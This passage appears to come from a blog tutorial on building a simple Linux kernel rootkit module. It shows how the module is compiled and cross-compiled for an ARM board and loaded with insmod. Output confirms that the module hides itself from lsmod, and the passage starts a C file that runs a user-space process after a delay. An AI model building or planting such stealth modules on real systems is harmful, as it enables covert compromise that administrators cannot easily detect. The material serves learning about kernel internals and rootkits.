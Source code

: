 clean:
	make -C $(KDIR) \
                SUBDIRS=$(shell pwd) clean
{% endcodeblock %}

With make we can simply compile the example for x86 only typing make command

{% codeblock lang:bash %}
linux_x86:~$ make
{% endcodeblock %}

If we need cross compile for example for ARM platform, the way to achieve that is to add ARCH and CROSS_COMPILE parameters.

For my A20 board it will look like this:
{% codeblock lang:bash %}
linux_x86:~$ make ARCH=arm CROSS_COMPILE=arm-linux-gnueabihf-
{% endcodeblock %}

If the compilation was successful, we will get a rootkitmod.ko file (the *.ko files are dedicated executable code for kernel)
Let's inject this module and see what will happen. I will run my example on an embedded board with linux ARM, but this can be also run on a x86 platform.

{% codeblock lang:bash %}
root@a20-olimex:~$ insmod rootkitmod.ko
{% endcodeblock %}

Then let's see if it exist in modules list that we get from lsmod

``` bash
root@a20-olimex:~$ lsmod | grep rootkitmod
root@a20-olimex:~$

```

Nice! lsmod didn't show it so we hid our module. To make sure that rootkit is already in the kernel space, let's check kernel logs:

{% codeblock lang:bash %}
root@a20-olimex:~$ dmesg
...
[24212.376904] sunxi_emac sunxi_emac.0: eth0: link up, 100Mbps, full-duplex, lpa 0xCDE1
[90378.868644] rootkit_mod loading.
[90378.874580] rootkit_mod hidind itself.
[90379.891221] rootkit_mod done.
{% endcodeblock %}

Great, our rootkit module is in the kernel space and can't be easily found using lsmod. What can we make in kernel space? The answer is exactly everything we want, but we have to know precisely what and how to achieve our goals (also which structures and functions to use) because kernel is really specific place where software meets hardware and each mistake can crash whole system. So as our next step let's say that we want rootkit to wait specific amount of time after loading, and because we already know linux user space better than kernel, we need to run user space process to operate with linux file system.

{% codeblock lang:c  rootkitmod_time_usp.c https://github.com/gotoco/low_level_stuff/blob/master/simplest_rootkit/rootkitmod_time_usp.c see on github %}
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/rculist.h>
#include <linux/sysfs.h>
#include <linux/delay.h>
